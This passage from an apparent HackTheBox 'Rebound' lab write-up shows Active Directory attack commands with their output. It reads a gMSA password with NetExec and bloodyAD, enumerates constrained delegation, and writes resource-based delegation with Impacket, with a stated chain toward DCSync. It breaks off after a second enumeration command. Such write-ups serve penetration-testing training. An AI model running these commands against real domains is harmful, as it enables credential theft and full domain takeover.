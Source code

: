 Awesome! Now following up with our previous attack path from `BloodHound`, `tbrady` has **ReadGMSAPassword** over `dlelegator$`, we can get is using `NetExec`:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ nxc ldap rebound.htb -u 'tbrady' -p '[REDACTED]' --gmsa
LDAP        10.129.232.31    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb) (signing:Enforced) (channel binding:Always)
LDAP        10.129.232.31    389    DC01             [+] rebound.htb\tbrady:[REDACTED] 
LDAP        10.129.232.31    389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.232.31    389    DC01             Account: delegator$           NTLM: [HASH_REDACTED]     PrincipalsAllowedToReadPassword: tbrady
```
- We can perform this action also with `bloodyAD`:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ bloodyAD --host dc01.rebound.htb -d rebound.htb -u tbrady -p '[REDACTED]' get object 'delegator$' --attr msDS-ManagedPassword
```
### Discovering Constrained Delegation

We can also find this remotely with `impacket-findDelegation`:
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-findDelegation 'rebound.htb/delegator$' -hashes :[HASH_REDACTED] -target-domain rebound.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

AccountName  AccountType                          DelegationType  DelegationRightsTo    
-----------  -----------------------------------  --------------  ---------------------
delegator$   ms-DS-Group-Managed-Service-Account  Constrained     http/dc01.rebound.htb
```

We see that `delegator$` has `Constrained Delegation` to `http/DC01.rebound.htb` with no protocol transition, which means that the `S4U2Self` step does not produce a **forwardable ticket**, which also causes the `S4U2proxy` step to fail.

Originally, the `Service for User to Self` (S4U2self) protocol enables a service to request a Service Ticket on another user's behalf, but for its own use. Conversely, the `Service for User to Proxy` (S4U2proxy) protocol allows a service to request a Service Ticket on another user's behalf, but for a different service.

So We will use `Resource-Based Constrained Delegation` (RBCD) to allow `ldap_monitor` to impersonate any user to `delegator$`.
Then chain:
1. `ldap_monitor` → impersonate `DC01$` → get TGS to `delegator$`
2. `delegator$` → use its delegation → get TGS as `DC01$` to `http/DC01`
3. Use that ticket → DCSync

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-rbcd 'rebound.htb/delegator$' -hashes :[HASH_REDACTED] -k -delegate-from `ldap_monitor` -delegate-to 'delegator$' -action write -dc-ip dc01.rebound.htb -use-ldaps
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ldap_monitor can now impersonate users on delegator$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ldap_monitor   (S-1-5-21-4078382237-1492182817-2568127209-7681)

┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-findDelegation 'rebound.htb/delegator$' -hashes :[HASH_REDACTED] -target-domain rebound.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
```